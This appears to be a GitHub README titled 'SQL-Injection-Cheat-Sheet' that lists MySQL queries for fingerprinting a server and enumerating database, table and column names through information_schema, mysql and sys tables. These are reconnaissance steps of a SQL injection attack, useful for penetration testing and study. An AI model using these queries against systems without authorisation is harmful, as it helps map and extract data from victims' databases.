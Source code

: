 # SQL-Injection-Cheat-Sheet

## MySQL
`SELECT @@hostname;`

`SELECT version();`
`SELECT @@version;`

`SELECT user();`
`SELECT system_user();`

#Current database
`SELECT database();`

#Get Database name
```SELECT schema_name FROM information_schema.schemata;
SELECT distinct(table_schema) FROM information_schema.tables;
SELECT distinct(table_schema) FROM information_schema.columns;
SELECT name FROM information_schema.innodb_tables;
SELECT name FROM information_schema.innodb_tablestats;
SELECT distinct(table_schema) FROM information_schema.key_column_usage;
SELECT distinct(table_schema) FROM information_schema.partitions;
SELECT distinct(table_schema) FROM information_schema.statistics;
SELECT distinct(db) FROM mysql.db;
SELECT distinct(database_name) FROM mysql.innodb_index_stats;
SELECT distinct(database_name) FROM mysql.innodb_table_stats;
SELECT distinct(table_schema) FROM sys.schema_index_statistics;
SELECT distinct(db) FROM sys.schema_object_overview;
SELECT distinct(table_schema) FROM sys.schema_table_statistics;
SELECT distinct(table_schema) FROM sys.x$schema_index_statistics;
SELECT distinct(table_schema) FROM sys.x$schema_table_statistics;```

#Get Table name
```SELECT table_name FROM information_schema.tables;
SELECT table_name FROM mysql.innodb_table_stats;
SELECT table_id,name FROM information_schema.innodb_columns;
SELECT name FROM information_schema.innodb_tables;
SELECT name FROM information_schema.innodb_tablestats;
SELECT table_name FROM information_schema.key_column_usage WHERE table_schema="{DATABASE_NAME}";
SELECT table_name FROM information_schema.partitions WHERE table_schema="{DATABASE_NAME}";
SELECT table_name FROM information_schema.statistics WHERE table_schema="{DATABASE_NAME}";
SELECT distinct(table_name) FROM mysql.innodb_index_stats WHERE database_name="DATABASE_NAME";
SELECT distinct(table_name) FROM mysql.innodb_table_stats WHERE database_name="DATABASE_NAME";
SELECT distinct(table_name) FROM sys.schema_index_statistics WHERE table_schema="{DATABASE_NAME}";
SELECT distinct(table_name) FROM sys.schema_table_statistics WHERE table_schema="{DATABASE_NAME}";
SELECT distinct(table_name) FROM sys.x$schema_index_statistics WHERE table_schema="{DATABASE_NAME}";
SELECT distinct(table_name) FROM sys.x$schema_table_statistics WHERE table_schema="{DATABASE_NAME}";```

#Get Column name
```SELECT column_name FROM information_schema.columns WHERE table_schema="{DATABASE_NAME}" AND table_name="{TABLE_NAME}";
SELECT column_name FROM information_schema.key_column_usage WHERE table_schema="{DATABASE_NAME}" AND table_name="{TABLE_NAME}";
SELECT column_name FROM information_schema.statistics WHERE table_schema="{DATABASE_NAME}" AND table_name="{TABLE_NAME}";```
